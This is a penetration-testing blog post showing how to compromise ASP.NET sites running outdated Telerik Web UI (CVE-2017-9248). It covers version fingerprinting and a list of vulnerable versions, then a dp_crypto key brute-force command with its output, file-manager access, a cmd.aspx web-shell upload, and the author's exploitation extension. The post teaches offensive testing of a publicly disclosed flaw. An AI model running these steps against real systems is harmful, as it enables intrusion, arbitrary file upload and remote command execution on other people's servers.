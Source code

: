 ```yaml
---
layout: post
title:  "Pwning Web Applications via Telerik Web UI"
date:   2018-08-03
categories: pentest
---
```


## Introduction 

Over the past months, I’ve encountered a number of web applications that were using Telerik Web UI components for their application’s interface. There’s nothing wrong with using third party components to make your application’s interface the way you want it. However, a vulnerability in these components could cause you harm. 


In this post, I’m going to show you how I pwned several web applications, specifically ASP.NET ones, by abusing an outdated version of Telerik Web UI.  

## Identification

The simplest way to check if the application is using Telerik Web UI is to view its HTML source code. 
![Source1](/static/img/10/01.png)
> _**TIP #1:** There are times where you’ll not find exactly the string **Telerik.Web.UI** from the HTML code. However, if you find the string **Telerik**, just keep on browsing the other pages of the application and search for the string **Telerik.Web.UI** again._


If you’ve identified that the application is using Telerik Web UI, the next step is to identify its version and check if it’s vulnerable to [**CVE-2017-9248**](https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness).  


Finding the version can either be easy or tricky. To get the exact version, just view the HTML code. In the case below, the version information sits right next to the string **Telerik.Web.UI**. That’s easy.
![Source2](/static/img/10/02.png)

However, there are cases where the version is not located right next to the string “**Telerik.Web.UI**”. Another way to identify the version of Telerik Web UI is by going through the HTML comments just like here. 
![Source3](/static/img/10/03.png)
So, you could just view the HTML code and search for the string "**\<!-- 20**".


Once you have the version information, cross-reference it with the list of vulnerable versions. Based on the [exploitation tool](https://github.com/bao7uo/dp_crypto) written by Paul Taylor ([@bao7uo](https://twitter.com/bao7uo)), the following versions are affected:
```
2007.1423        2008.31314       2010.31317        2013.1.403        2015.2.729
2007.1521        2009.1311        2011.1315         2013.1.417        2015.2.826
2007.1626        2009.1402        2011.1413         2013.2.611        2015.3.930
2007.2918        2009.1527        2011.1519         2013.2.717        2015.3.1111
2007.2101        2009.2701        2011.2712         2013.3.1015       2016.1.113
2007.21107       2009.2826        2011.2915         2013.3.1114       2016.1.225
2007.31218       2009.31103       2011.31115        2013.3.1324       2016.2.504
2007.31314       2009.31208       2011.3.1305       2014.1.225        2016.2.607
2007.31425       2009.31314       2012.1.215        2014.1.403        2016.3.914
2008.1415        2010.1309        2012.1.411        2014.2.618        2016.3.1018
2008.1515        2010.1415        2012.2.607        2014.2.724        2016.3.1027
2008.1619        2010.1519        2012.2.724        2014.3.1024       2017.1.118
2008.2723        2010.2713        2012.2.912        2015.1.204        2017.1.228
2008.2826        2010.2826        2012.3.1016       2015.1.225        2017.2.503
2008.21001       2010.2929        2012.3.1205       2015.1.401        2017.2.621
2008.31105       2010.31109       2012.3.1308       2015.2.604        2017.2.711
2008.31125       2010.31215       2013.1.220        2015.2.623        2017.3.913
```

## Exploitation

Before jumping to the exploitation, we have to locate first the "Dialog Handler" **Telerik.Web.UI.DialogHandler.aspx**. Most of the time, it’s located at the root directory of the application. If it’s not there, try the sub-directories. To verify if you’ve found the right location, you should see the string "**Loading the dialog…**" when accessing the dialog handler.
![Loading](/static/img/10/04.png)
> _**TIP #2:** Sometimes, the sub-directory where the dialog handler is located (or where Telerik Web UI is located in general) can be found from the HTML source code._

For the exploitation, use the tool written by Paul Taylor which can be downloaded [here](https://github.com/bao7uo/dp_crypto). Credits and big thanks to him for writing this one. 


Here’s an example of the tool running to bruteforce the key and discover the hidden link to access the **Document Manager** page.
```console
root@kali:~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {D} found with 31 requests, total so far: 31
Key position 02: {3} found with 10 requests, total so far: 41
Key position 03: {A} found with 35 requests, total so far: 76
Key position 04: {D} found with 46 requests, total so far: 122
<------------------------ SNIPPED ------------------------>
Key position 45: {B} found with 50 requests, total so far: 1638
Key position 46: {3} found with 36 requests, total so far: 1674
Key position 47: {3} found with 50 requests, total so far: 1724
Key position 48: {F} found with 57 requests, total so far: 1781
Found key: D3AD[redacted]B33F
Total web requests: 1781
2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]
```

By visiting the "**Document Manager**" link, we see that we now have access to all the files and folders of the web server. More importantly, we see that we can upload arbitrary files to the server.
![Document Manager](/static/img/10/05.png)

Here’s an example of the shell **cmd.aspx** file that I uploaded. 
![Shell](/static/img/10/06.png)

And here’s an example of a command execution using the uploaded shell.
![Shell Upload](/static/img/10/07.png)

## Telewreck

As part of my learning process, I decided to create a Burp Suite extension that can detect and exploit vulnerable instances of Telerik Web UI. I named it **Telewreck** and is available at [https://github.com/capt-meelo/Telewreck](https://github.com/capt-meelo/Telewreck). 

When running a passive scan, this extension will look for vulnerable versions of Telerik Web UI.
![Passive](/static/img/10/08.png)

A tab where you can perform the exploitation part is also available.
![Tab](/static/img/10/09.png)

That's it! 

Feel free to contribute in the development of the tool and report/fix some issues.
